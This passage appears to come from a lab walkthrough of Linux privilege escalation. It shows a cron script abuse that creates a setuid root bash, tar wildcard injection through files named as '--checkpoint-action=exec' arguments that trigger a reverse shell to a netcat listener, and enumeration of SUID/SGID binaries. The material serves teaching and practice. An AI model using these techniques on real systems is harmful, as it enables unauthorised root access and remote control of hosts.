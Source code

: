 `chmod +x /home/user/overwrite.sh`

Wait for the cron job to run (should not take longer than a minute).
Run the /tmp/rootbash command with -p to gain a shell running with root privileges:

`/tmp/rootbash -p`

Remember to remove the modified code, remove the /tmp/rootbash executable and exit out of the elevated shell before continuing as you will create this file again later in the room!

```
rm /tmp/rootbash
exit
```

### Cron Jobs - Wildcards

The victim
```
user@debian:~$ cat /usr/local/bin/compress.sh 
#!/bin/sh
cd /home/user
tar czf /tmp/backup.tar.gz *
user@debian:~$ ls
myvpn.ovpn  shell.elf  tools
user@debian:~$ chmod +x shell.elf 
user@debian:~$ ./shell.elf 
user@debian:~$ touch /home/user/--checkpoint=1
user@debian:~$ touch /home/user/--checkpoint-action=exec=shell.elf
```

The Attacker
```
$ nc -nvlp 4444
Connection from 10.10.0.82:35603
id
uid=0(root) gid=0(root) groups=0(root)
ls
--checkpoint-action=exec=shell.elf
--checkpoint=1
myvpn.ovpn
shell.elf
tools
exit
```

### SUID / SGID Executables - Known Exploits
```
user@debian:~$ find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
-rwxr-sr-x 1 root shadow 19528 Feb 15  2011 /usr/bin/expiry
-rwxr-sr-x 1 root ssh 108600 Apr  2  2014 /usr/bin/ssh-agent
-rwsr-xr-x 1 root root 37552 Feb 15  2011 /usr/bin/chsh
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudo
-rwxr-sr-x 1 root tty 11000 Jun 17  2010 /usr/bin/bsd-write
-rwxr-sr-x 1 root crontab 35040 Dec 18  2010 /usr/bin/crontab
-rwsr-xr-x 1 root root 32808 Feb 15  2011 /usr/bin/newgrp
-rwsr-xr-x 2 root root 168136 Jan  5  2016 /usr/bin/sudoedit
-rwxr-sr-x 1 root shadow 56976 Feb 15  2011 /usr/bin/chage
-rwsr-xr-x 1 root root 43280 Feb 15  2011 /usr/bin/passwd
-rwsr-xr-x 1 root root 60208 Feb 15  2011 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 39856 Feb 15  2011 /usr/bin/chfn
-rwxr-sr-x 1 root tty 12000 Jan 25  2011 /usr/bin/wall
-rwsr-sr-x 1 root staff 9861 May 14  2017 /usr/local/bin/suid-so
-rwsr-sr-x 1 root staff 6883 May 14  2017 /usr/local/bin/suid-env
-rwsr-sr-x 1 root staff 6899 May 14  2017 /usr/local/bin/suid-env2
-rwsr-xr-x 1 root root 963691 May 13  2017 /usr/sbin/exim-4.84-3
-rwsr-xr-x 1 root root 6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
```